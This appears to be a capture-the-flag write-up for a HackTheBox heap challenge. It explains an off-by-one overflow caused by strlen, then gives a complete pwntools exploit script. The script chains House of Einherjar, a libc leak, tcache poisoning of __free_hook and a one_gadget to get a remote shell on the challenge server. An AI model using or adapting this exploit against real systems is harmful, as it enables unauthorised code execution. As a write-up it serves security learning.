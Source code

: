 
was a classic heap challenge from hackthebox Cyber Apocalypse 2025


![vulnstrlen](https://github.com/user-attachments/assets/b3015ac9-ee9a-4ce0-81b1-296e93d38655)

vuln is one byte overfloww in edit_plan function because...

       The  strlen() function calculates the length of the string pointed to by
       s, excluding the terminating null byte ('\0').

..it will count the newline x)

so if you create a chunk and fill it and use edit_plan you can one byte overflow to the next chunk's metadata

and maybe set the prev_inuse bit to false

.....sounds familiar?


```python3
#!/usr/bin/env python3

from pwn import *
import time
'''
p = gdb.debug("./strategist_patched", gdbscript="""
    c
    """)
'''
#p = process("./strategist_patched")


p = remote("94.237.60.18", 33440)

def m(size, data):
    time.sleep(0.3)
    p.sendline(b"1")
    time.sleep(0.3)
    p.sendline(size.encode('utf-8'))
    time.sleep(0.5)
    p.sendline(data)
    
def f(idx):
    time.sleep(0.3)
    p.sendline(b"4")
    time.sleep(0.3)
    p.sendline(idx.encode('utf-8'))

def r(idx):
    time.sleep(0.3)
    p.sendline(b"2")
    time.sleep(0.3)
    p.sendline(idx.encode('utf-8'))
    p.recvuntil("Plan [{}]: \n".format(idx).encode('utf-8'))
    return p.recvline().strip()

def e(idx, data):
    time.sleep(0.3)
    p.sendline(b"3")
    time.sleep(0.3)
    p.sendline(idx.encode('utf-8'))
    p.sendafter(b"> ", data)

print("leaking the address of chunk0...")
# leak the address of chunk0
m("20", b"")
m("20", b"")
f("0")
f("1")
m("20", b"") # idx 0
m("20", b"") # idx 1

# offset = 70 # offset on local
offset = 60 # offset on remote
leak = int(str(hex(int.from_bytes(r("0"), 'little'))) + str(offset), 16)
print(hex(leak))

print(f"chunk0: {hex(leak)}")
fake_chunk = leak + 0x40 
print(f"fake chunk at {hex(fake_chunk)}")

### HOUSE OF EINHERJAR
# create a fake chunk 
m("56", p64(0x00) + p64(0x60) + p64(fake_chunk) + p64(fake_chunk)) # idx 2

# create a chunk for later use to overwrite the next chunk's prev_inuse bit
# need to fill it so strlen will read until null byte, 39 x A and a newline
m("40", b"A"*39) # idx 3

time.sleep(0.1)

# create a big chunk and overwrite its lsb byte 
m("248", b"bbbb") # idx 4
e("3", b"A"*32 + p64(0x60) + b'\x00') 

print("filling tcache...")
# fill tcache
for i in range(7):
    time.sleep(0.2)
    m("248", b"AAAA")

for i in range(7):
    time.sleep(0.2)
    f(f"{i+5}")

# now its going to consolidate with our fake chunk
f("4")

# now we can call malloc and it will begin in our fake chunk
# also some stuff to not fuck up the chunks

m("344", b"a"*32 + b"a"*8 + p64(0x31) + b"a"*20)

# padding before tcache hijacking
m("40", b"freeme") # idx 4
f("5")
f("3")

# can't use edit to overwrite it until the next pointer
# so just free it and later malloc again with the payload
f("4")

print("leaking libc...")
# get an allocation on unsortedbin
for i in range(8):
    time.sleep(0.3)
    m("528", b"AAAA")
m("20", b"XXX") 
for i in range(8):
    time.sleep(0.3)
    f(f"{i+3}")

# let it slice from unsortedbin to get a libc leak
m("512", b"") # idx 3

leak = int(str(hex(int.from_bytes(r("3"), 'little'))) + str(10), 16)
print(f"main arena: {hex(leak)}")
libc_base = leak - 0x3ebe10 
print(f"libc base {hex(libc_base)}")

binsh = libc_base + 0x1b3e1a
system = libc_base + 0x4f550
malloc_hook = libc_base + 0x3ebc30 
free_hook = libc_base + 0x3ed8e8

# one_gadgets
one1 = libc_base + 0x4f3ce
one2 = libc_base + 0x4f3d5
one3 = libc_base + 0x4f432
one4 = libc_base + 0x10a41c

print(f"free_hook {hex(free_hook)}")
print(f"malloc_hook {hex(malloc_hook)}")
print(f"binsh {hex(binsh)}")
print(f"system {hex(system)}")

print("performing tcache poisoning...")
# malloc again with the payload
m("344", b"b"*32 + b"a"*8 + p64(0x31) + p64(free_hook))
m("40", b"")
m("40", p64(one3))

# trigger the hook and enjoy your shell :p
f("3")

p.clean()

p.interactive()
```

![hacktheboxflag](https://github.com/user-attachments/assets/cc4accd1-f0f0-4188-8f69-4935b23ec9d5)

**_4rsp is still exploiting the heap...._**

